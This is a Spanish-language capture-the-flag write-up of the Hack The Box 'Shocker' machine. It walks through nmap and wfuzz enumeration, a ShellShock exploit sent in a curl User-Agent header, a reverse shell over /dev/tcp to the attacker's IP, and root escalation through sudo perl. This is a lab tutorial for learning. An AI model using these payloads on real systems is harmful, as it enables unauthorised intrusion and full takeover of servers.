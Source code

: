 ```yaml
---
layout: single
title: Hack the box-Shocker 
excerpt: "Maquina Shocker hack the box"
date: 2021-08-26
classes: wide
header:
  teaser: /assets/images/shocker/shocker.jpg
  teaser_home_page: true
categories:
  -HTB -CTF
tags:  
  - HTB
  - enumeration
  - explotacion
---
```


Esta es una resolucion completa de la maquina shocker de hack the box una maquina linux de 64 bits.
### Nivel de dificultad:

Intrusion = facil.

Escala de privilegios = facil. 
## Reconocimiento general de la maquina 
### Reconocimiento de puertos
Realizamos el escaneo con nmap 
```
nmap -p- --open -n -T5 -v 10.10.10.56
```
### Salida de nmap: 
<p align="left">
<img src="/assets/images/shocker/salida-shocker.png">
</p>

## Vemos que tiene un servidor http por el puerto 80 al entrar a esa pagina web vemos la suigente imagen:
<p align="left">
<img src="/assets/images/shocker/web-shocker.png">
</p>

### El codigo fuente muestra esto:
<p align="left">
<img src="/assets/images/shocker/codigofuente-shocker.png">
</p>
### Wappalyzer:
<p align="left">
<img src="/assets/images/shocker/wapalyzer.png">
</p>
### Uso de wfuzz en busca de rutas potenciales:
```
wfuzz -c -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ
```
Ocupe el diccionario /usr/share/dirb/wordlists/common.txt de dirbuster pero otros diccionarios pueden dar los mismos resultados
### Salida de wfuzz:
<p align="left">
<img src="/assets/images/shocker/wfuzz.png">
</p>
Podemos ver un directorio cgi-bin/

### cgi-bin/
Esta carpeta se usa principalmente para guardar archivos con la extension cgi pero no es una obligacion que tengan esta extension para ser guardados aqui
### Archivos .cgi 
Estos archivos son utilizados principalmente para realizar tareas que no son soportadas por el estandar html 

Ej:

Base de datos

Contadores 

### Uso de wfuzz para encontrar archivos con diferentes extensiones:
Creamos un diccionario con extensiones variadas para luego usarlo

extensiones.txt
```
html 
php
pl
cgi 
txt
sh 
```
Uso de wfuzz con dos diccionarios 
```
wfuzz -c --hc=440 -t 500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensiones.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```
Encontramos un archivo user-sh
<p align="left">
<img src="/assets/images/shocker/user-sh.png">
</p>
Entramos al recurso /cgi-bin/user.sh
<p align="left">
<img src="/assets/images/shocker/recurso.png">
</p>

## Intrusion a la maquina 
Para ganar acceso a la maquina realizaremos un ataque ShellShock 
en esta mapa en especifico habra que probar hacer un aislamiento de comandos con echo;
### Ganamos ejecucion remota de comandos
```
curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
```
### Ganamos una shell 
Nos ponemos en escucha con netcat 
```
nc -nlvp 443
```
Ahora ganamos la shell
```
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -l >& /dev/tcp/(nuestra ip)/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
Hacemos un tratamiento de la TTY (Tengo un articulo explicando como hacer un tratamiento de la  TTY)

Realizado el tratamiento de la  TTY tendriamos acceso a la maquina con el usuario shelly y tendriamos acceso a la flag del usuario.
## Escala de privilegios 
Con el comando 
```
sudo -l
```
podemos ver que el usuario root permite ejecutar el comando perl sin necesidad de contraseña

esta pagina nos muestra algunos comandos para escalar privilegios segun los comandos que se nos permita ejecutar

* [https://gtfobins.github.io/](https://gtfobins.github.io/)

Podemos ejecutar un comando perl para poder escalar privilegios
```
sudo perl -e 'exec "/bin/sh";'
```
Ahora ya tendriamos acceso a root y a su flag.
